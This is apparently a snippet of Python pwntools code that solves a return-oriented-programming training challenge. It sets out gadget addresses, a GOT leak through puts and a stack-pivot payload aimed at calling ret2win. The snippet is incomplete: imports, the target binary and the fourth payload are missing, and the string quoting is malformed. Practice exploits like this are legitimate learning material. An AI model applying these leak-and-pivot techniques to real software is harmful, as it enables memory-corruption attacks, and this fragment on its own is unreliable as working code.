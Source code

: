 ```python
exploit:
    call foothold function to populate got
    call puts on new foothold function in order to leak value
    redirect back to main in order to send new rop chain which will call ret2win

    payload 1: (pivoted)
        resolve + leak

    payload 2: (pivoter)
        stack smash + stack pivot
        
    payload 3: (pivoter)
        nop

    payload 4: (pivoted)
        call ret2win with custom address
'''

gadgets = {
    "pop_rax_ret":0x4009bb,
    "xchg_rsp_rax":0x4009bd,
    "mov_rax_ptr_rax":0x4009c0,
    "add_rax_rbp":0x4009c4,
    "pop_rdi_ret":0x400a33,
    "foothold_function@plt":0x400720,
    "foothold_function@got":0x601040,
    "puts@plt":0x4006e0,
    "main":0x400847
}

padding = 40
lib_got_offset = 279
debug_script = ""

with open("debug.gdb", "r") as file_io:
    debug_script += file_io.read()

with pwn.process(binary) as io:

    io.recvuntil(": ")
    leak = io.recvline().strip()
    pwn.info(f"leak found {leak}")

    payload_1 = pwn.flat(
        pwn.p64(gadgets["foothold_function@plt"]),
        pwn.p64(gadgets["pop_rdi_ret"]),
        pwn.p64(gadgets["foothold_function@got"]),
        pwn.p64(gadgets["puts@plt"]),
        pwn.p64(gadgets["main"]),
        b"\n"
    ) 
    
    payload_2 = pwn.flat(
        b"A"*padding,
        pwn.p64(gadgets["pop_rax_ret"]),
        pwn.p64(int(leak.strip(), 16)),
        pwn.p64(gadgets["xchg_rsp_rax"])
    )

    payload_3 = pwn.flat(
        pwn.asm('nop'),
        b"\n"
    )
```
